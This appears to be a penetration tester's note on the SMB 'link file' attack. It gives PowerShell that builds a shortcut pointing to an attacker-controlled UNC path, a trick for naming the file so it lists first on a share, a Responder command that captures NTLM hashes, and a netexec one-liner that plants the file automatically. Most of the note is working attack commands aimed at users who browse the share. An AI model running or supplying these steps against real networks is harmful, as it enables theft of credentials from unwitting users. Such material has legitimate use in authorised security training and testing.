 -- -
Link File Attacks, basically a waterhole attack. You link a file on the share to a shell and placing it in a share at the top so that if any user gets on the share, it will execute and you will get a hash on [[Responder]] if it's up and listening. 
#### Manual
On an elevated shell i.e. run as administrator powershell:
```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk") # location can be anywhere
$lnk.TargetPath = "\\<attack ip>\@test.png" 
$lnk.WindowStyle = 1 # default value
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" # default value
$lnk.Description = "test" # default value
$lnk.HotKey = "Ctrl+Alt+T" # default value
$lnk.Save()
```
Rename the file so that it starts with an `@` or `~` symbol, which will ensure it is the top (or nearly the top) of the share file listing. 

Now run responder:
```bash
sudo responder -i eth0 -dPv
```
Then, put the created file into a file share.
After it's on the share, if a user visits that share, responder should pick up  their hash the same as in [[LLMNR Poisoning]].

#### Automated
If there is an exposed share (writable share), then this will do the above process for you, all you need to do is run responder as above. 
```bash
netexec smb <victim ip> -d <domain> -u <user> -p <password> -M slinky -M slinky -o NAME=<filename> SERVER=<attack ip> 
```